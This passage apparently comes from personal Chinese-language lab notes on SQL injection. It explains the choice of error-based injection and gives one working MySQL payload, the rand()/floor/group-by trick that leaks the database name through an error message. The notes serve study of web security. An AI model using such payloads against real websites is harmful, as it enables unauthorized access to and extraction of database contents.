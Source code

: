 得到有3列



经过标准流程但是**无法得到输出的报错位**：

![image-20220115090649639](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115090649639.png)



那么思考：

关于报错注入：如果输入错误就会报错，如果输入正确会查数据库，但不显示东西——使用报错注入



方法1：使用rand()的漏洞

```
?id=1' AND (select 1 from (select count(*),concat((select database()),floor(rand()*2))a from information_schema.columns group by a)b) --+
```

![image-20220115091145526](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115091145526.png)

